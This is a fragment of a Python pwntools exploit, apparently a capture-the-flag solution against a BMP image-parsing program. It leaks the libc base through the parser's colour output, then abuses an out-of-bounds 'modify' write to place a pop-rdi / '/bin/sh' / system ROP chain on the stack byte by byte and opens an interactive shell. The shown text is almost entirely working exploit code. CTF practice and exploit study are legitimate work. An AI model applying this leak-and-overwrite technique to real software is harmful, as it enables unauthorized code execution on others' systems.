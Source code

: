 ```python
    libc = ELF("./libc.so.6")

    ## +0x1000+0x68 -> ld+0x3a040 ( libc + 0x22e000 + 0x3a040 )

    ## leak buf+0x1068 (ld+0x3a040)
    data = build_img(0x12c0,0x1068,8,200,2)
    p.sendafter("input your BMP image (MAX: 0x1000): ",data)
    p.sendafter("wanna parse or modify? (p/m): ",b"p\n")
    p.recvuntil(b"rgbs: ")

    data = p.recvline()
    data = data.split(b'\x1b[38;5;')[1:]
    data = [int(x.split(b'm')[0]) for x in data]
    libc_base = u64(bytes(data).ljust(8,b'\x00')) - 0x3a040 - 0x22d000

    print("libc_base",hex(libc_base))
    libc.address = libc_base
    if libc_base < 0:
      p.close()
      continue
    binsh = next(libc.search(b"/bin/sh"))
    system = libc.sym["system"]
    prdi = next(libc.search(asm("pop rdi; ret")))
    ret = prdi+1

    def aaw(offset, data):
      p.sendlineafter("wanna parse or modify? (p/m): ",b"m")
      p.sendlineafter("index: ",str(offset).encode())
      p.sendlineafter("value: ",str(data).encode())

    for i in range(8):
      aaw(-0x1068-280+8+i, (prdi>>i*8)&0xff)
    for i in range(8):
      aaw(-0x1068-280+16+i, (binsh>>i*8)&0xff)
    for i in range(8):
      aaw(-0x1068-280+24+i, (system>>i*8)&0xff)

    aaw(-0x1068-0x100+0xd8,0x01)
    aaw(-0x1068-280,0xaa)

    p.sendline("id")
    p.recvline()
    p.sendline("id")
    p.recvline()
    p.interactive()

  except:
    continue
```

